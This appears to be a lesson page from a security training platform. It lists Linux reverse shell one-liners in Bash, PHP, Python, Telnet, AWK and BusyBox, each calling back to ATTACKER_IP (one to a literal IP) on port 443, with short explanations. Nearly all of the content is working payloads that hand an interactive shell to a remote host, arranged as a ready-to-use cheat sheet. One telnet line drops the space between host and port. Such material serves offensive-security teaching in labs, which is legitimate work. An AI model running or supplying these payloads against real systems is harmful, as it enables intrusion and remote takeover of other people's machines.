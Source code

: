 A Shell Payload can be a command or script that exposes the shell to an incoming connection in the case of a bind shell or a send connection in the case of a reverse shell.

Let's explore some of these payloads that can be used in the Linux OS to expose the shell through the most popular **reverse shell**.  

#### Bash

**Normal Bash Reverse Shell**

Terminal

```shell-session
target@tryhackme:~$ bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 
```

This reverse shell initiates an interactive bash shell that redirects input and output through a TCP connection to the attacker's IP (**ATTACKER_IP**) on port `443`. The `>&` operator combines both standard output and standard error.

  

**Bash Read Line** **Reverse Shell**

Terminal

```shell-session
target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```

This reverse shell creates a new file descriptor (`5` in this case)  and connects to a TCP socket. It will read and execute commands from the socket, sending the output back through the same socket.

  

**Bash With File Descriptor 196** **Reverse Shell**

Terminal

```shell-session
target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
```

This reverse shell uses a file descriptor (`196` in this case) to establish a TCP connection. It allows the shell to read commands from the network and send output back through the same connection.

  

**Bash With File Descriptor 5** **Reverse Shell**

Terminal

```shell-session
target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

Similar to the first example, this command opens a shell (`bash -i`), but it uses file descriptor `5` for input and output, enabling an interactive session over the TCP connection.

#### PHP

**PHP Reverse Shell Using the exec Function**

Terminal

```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
```

This reverse shell creates a socket connection to the attacker's IP on port `443` and uses the `exec` function to execute a shell, redirecting standard input and output.

  

**PHP Reverse Shell Using the shell_exec Function**

Terminal

```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```

Similar to the previous command, but uses the `shell_exec` function.

  

**PHP Reverse Shell Using the system Function**

Terminal

```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
```

This reverse shell employs the `system` function, which executes the command and outputs the result to the browser.

  

**PHP Reverse Shell Using the passthru Function**

Terminal

```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```

The `passthru` function executes a command and sends raw output back to the browser. This is useful when working with binary data.

  

**PHP Reverse Shell Using the popen Function**

Terminal

```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
```

This reverse shell uses `popen` to open a process file pointer, allowing the shell to be executed.

### Python

**Python Reverse Shell by Exporting Environment Variables**

Terminal

```shell-session
target@tryhackme:~$ export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
```

This reverse shell sets the remote host and port as environment variables, creates a socket connection, and duplicates the socket file descriptor for standard input/output.

**Python Reverse Shell Using the subprocess Module**

Terminal

```shell-session
target@tryhackme:~$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
```

This reverse shell uses the `subprocess` module to spawn a shell and set up a similar environment as the Python Reverse Shell by Exporting Environment Variables command.  

**Short Python Reverse Shell**

Terminal

```shell-session
target@tryhackme:~$ python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

This reverse shell creates a socket (`s`), connects to the attacker, and redirects standard input, output, and error to the socket using `os.dup2()`.

Others  

**Telnet**

Terminal

```shell-session
target@tryhackme:~$ TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```

This reverse shell creates a named pipe using `mkfifo` and connects to the attacker via Telnet on IP `ATTACKER_IP` and port `443`. 

**AWK**

Terminal

```shell-session
target@tryhackme:~$ awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

This reverse shell uses AWK’s built-in TCP capabilities to connect to `ATTACKER_IP:443`. It reads commands from the attacker and executes them. Then it sends the results back over the same TCP connection.

**BusyBox**

Terminal

```shell-session
target@tryhackme:~$ busybox nc ATTACKER_IP 443 -e sh
```

This BusyBox reverse shell uses Netcat (`nc`) to connect to the attacker at `ATTACKER_IP:443`. Once connected, it executes `/bin/sh`, exposing the command line to the attacker.